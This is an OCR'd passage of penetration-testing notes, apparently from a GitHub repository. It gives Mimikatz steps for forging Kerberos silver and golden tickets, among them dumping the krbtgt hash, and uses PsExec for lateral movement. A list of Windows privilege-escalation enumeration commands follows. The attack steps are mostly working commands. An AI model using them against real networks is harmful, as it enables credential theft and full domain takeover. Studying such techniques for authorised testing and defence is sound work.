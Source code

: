     mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN> /sid:<USER_SID> /krbtgt:<SERVICE_NTLM_HASH> [/id:1103] [/ptt]
    ```
    
3. Open a new command prompt with elevated privileges with the given ticket:
    
    ```
    mimikatz # misc::cmd
    ```
    

### 🎫 Golden ticket (`mimikatz`)

1. Dump the hash and security identifier (SID) of the Kerberos Ticket Granting Ticket (**krbtgt**) service account:
    
    ```
    mimikatz # lsadump::lsa /inject /name:krbtgt
    ```
    
2. Create a golden ticket:
    
    ```
    mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN> /sid:<SID> /krbtgt:<KRBTGT_HASH> [/id:500] [/ptt]
    ```
    
3. Open a new command prompt with elevated privileges and access to all machines with:
    
    ```
    mimikatz # misc::cmd
    ```
    
    ```powershell
    psexec.exe \\$REMOTE_MACHINE_HOSTNAME cmd.exe
    ```
    
    ⚠️ OverPass the Hash with `PsExec` when using hostname, otherwise (IP) NTLM authentication would be blocked
    

➡️ [Golden Ticket - Mimikatz alternative (impacket)](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#golden-ticket)

---

## 🧗‍♂️ Privesc

> [Windows Privesc notes](https://github.com/amirr0r/notes/blob/master/Windows/Privesc.md#windows-privesc)
 

### 🕵️ Enumeration

- List information about current: `net user <username>`
- List groups I belonged to: `whoami /groups` or `net user /domain <username>`
- List users: `net user`
- `systeminfo`
- `tasklist`
    - `tasklist /SVC` ⇒ return processes that are mapped to a specific Windows service
- View the permissions set on a directory (or file): `icacls <directory|file>`
- Get user *Security Identifier* (SID): `whoami /user`
- View information about a registry key: `reg query <key>`
    - `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`
    - `HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
    
